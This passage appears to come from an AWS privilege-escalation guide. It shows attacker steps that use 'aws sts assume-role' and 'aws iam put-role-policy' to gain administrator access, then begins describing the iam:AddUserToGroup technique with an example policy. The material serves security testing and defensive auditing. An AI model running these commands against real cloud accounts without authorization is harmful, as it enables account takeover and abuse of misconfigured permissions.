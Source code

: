 First, the attacker assumes the role in the target AWS account:

```bash
➜ aws sts assume-role --role-arn arn:aws:iam::1[REDACTED]:role/privesc12 --role-session-name privesc12 --profile awstwo
```

```json
{
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAS4WERQEFCCNCEZ7FQ:privesc12",
        "Arn": "arn:aws:sts::[REDACTED]:assumed-role/privesc12/privesc12"
    },
    "Credentials": {
        "SecretAccessKey": "[REDACTED]",
        "SessionToken": "[REDACTED]",
        "Expiration": "2019-09-05T20:39:43Z",
        "AccessKeyId": "[REDACTED]"
    }
}
```

After adding the session credentials to a new AWS profile (named assumedrole in the example below), the attacker escalates privileges by attaching a new policy to the role:

```bash
➜ aws iam put-role-policy --role-name privesc12 --policy-name new_inline_policy --policy-document file://adminpolicy.json --profile assumedrole
```

The attacker now has administrator access to the AWS account.

## 13 - iam:AddUserToGroup

### Description
Users with the iam:AddUserToGroup permission can add users to new groups, potentially allowing them to add their own user account to a group that has more privileges than what the user currently has.

### Requirements
The user needs to have the iam:AddUserToGroup permission for a group that has more permissions than they currently possess.

### Example
In this example, our attacker is part of a single group, The group has one permission, which allows iam:AddUserToGroup on all groups:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:AddUserToGroup",
      "Resource": "arn:aws:iam::*:group/*"
    }
  ]
}
```
